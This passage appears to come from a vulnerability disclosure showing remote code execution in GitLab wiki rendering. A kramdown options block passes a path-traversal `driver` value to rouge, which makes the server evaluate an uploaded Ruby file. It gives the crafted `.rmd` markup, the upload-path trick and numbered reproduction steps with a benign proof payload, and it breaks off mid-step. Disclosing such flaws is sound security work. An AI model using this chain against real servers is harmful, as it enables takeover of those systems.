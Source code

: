 As both `require_relative` and `require` allow for directory traversal, supplying a `driver` option such as `../../../../../../../../../../tmp/a.rb` will cause that file to be evaluated.

One of the ways to get a file to a known location in gitlab is to attach a file in the description of a snippet. When attaching, a markdown link will be created similar to: `[file.rb](/uploads/-/system/user/1/1cd3e965551892a4c0c1af01ef2f2ad7/file.rb)`. The default `gitlab_rails['uploads_directory']` is `/var/opt/gitlab/gitlab-rails/uploads` meaning the final file location will be `/var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/1cd3e965551892a4c0c1af01ef2f2ad7/file.rb`.

Combining all of of this, we can create the following `.rmd` file to execute our payload (add `~` to both of the `~~`):
```
{::options auto_ids="false" footnote_nr="5" syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Redis, driver: ../../../../../../../../../../var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/1cd3e965551892a4c0c1af01ef2f2ad7/file.rb\}" /}

~~ ruby
def what?
  42
end
~~
```

### Steps to reproduce

1. Create a new snippet with any title and file
1. In the description, click `Attach a file` and select the final ruby payload such as:
    ```ruby
puts "hello from ruby"
`echo vakzz was here > /tmp/vakzz`
    ```
1. Make note of the upload path: `/uploads/-/system/user/1/c4119c5b144037f708ead7295cea4dd0/payload.rb`
1. Create a new project
1. Click Wiki and create a default home page
1. Hit `Clone repository` to get the clone command
1. Clone the repo `git clone git@gitlab-docker.local:root/proj1.wiki.git` and add the following file `page1.rmd` using the path from above (add `~` to both the the `~~`): 

    ```
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Redis, driver: ../../../../../../../../../../var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/c4119c5b144037f708ead7295cea4dd0/payload.rb\}" /}
~~ ruby
def what?
  42
end
~~
    ```

1. Push the changes `git add -A . && git commit -m "page1.rmd" && git push`
1. Refresh the wiki, there should now be `page1 ` of the right hand side
1. Click and load `page1`
1. In the gitlab logs you should see something like:
